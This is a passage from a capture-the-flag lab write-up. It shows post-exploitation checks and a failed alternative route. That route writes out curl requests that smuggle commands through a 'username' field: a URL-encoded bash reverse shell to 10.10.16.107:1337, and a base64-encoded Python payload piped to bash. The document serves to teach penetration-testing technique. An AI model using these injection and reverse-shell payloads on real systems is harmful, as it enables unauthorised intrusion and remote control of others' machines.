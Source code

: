```
id 
whoami
```
![](./IMG/27.png)
- Get user flag
![](./IMG/28.png)
#### Other method not success one

- I also tried to access vulnerable page by curl directly, but it won't replied the reverse shell back to nc. 
```
curl 'http://10.10.11.224' \ 
	--data 'username=%3b%60bash+-i+%3e%26+%2fdev%2ftcp%2f10.10.16.107%2f1337+0%3e%261%7cbash%60'
```
![](./IMG/29.png)
- I also generate python reverse shell and base 64 encode it.
```
curl 'http://10.10.11.224' \ 
	--data 'username=;`echo <python payload with base64>|base64 -d| bash`'
```
![](./IMG/30.png)
